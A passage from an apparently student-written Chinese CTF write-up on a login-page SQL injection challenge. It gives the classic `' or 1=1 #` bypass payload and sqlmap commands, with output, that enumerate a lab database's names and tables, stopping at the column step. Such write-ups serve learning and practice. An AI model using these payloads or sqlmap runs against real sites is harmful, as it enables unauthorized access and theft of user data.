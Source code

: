![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/0e185ed04c09d30db92fed5775aa16a.png)



### 例题1
**登录界面注入**

用户名 `aaa' or 1=1 #`
密码随便

账号 admin
密码
nginx/1.10.0 (Ubuntu)

在这里卡了蛮久的,本来想通过朴素的万能密码的方式来登录，但是没有成功,在这里大概卡了一天半.

后来逛了逛校巴,发现welcome中有几道web的题目很相关,一道是教sqlmap的,另一道是教文件包含的.

做完了那两个题,再回头看这个题,思路就比较清晰了.


人工注入感觉我的sql水平应该达不到，所以尝试使用sqlmap进行注入

这里学习了一下post注入的方法
![](https://philfan-pic.oss-cn-beijing.aliyuncs.com/img/20240801201104.png)

先将burp的报文保存到一个文件中，然后使用sqlmap进行注入，使用`-r`参数加载文件，使用`-p`参数指定注入点

```shell
sqlmap -r ./test.txt -p username --dbs
```

```
[08:03:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] web400
```

```shell
sqlmap -r ./test.txt -p username -D web400 --tables
```

```
[08:04:00] [INFO] fetching tables for database: 'web400'
Database: web400
[1 table]
+-------+
| USERS |
+-------+
```

```shell
sqlmap -r ./test.txt -p username -D web400 -T USERS --columns
```
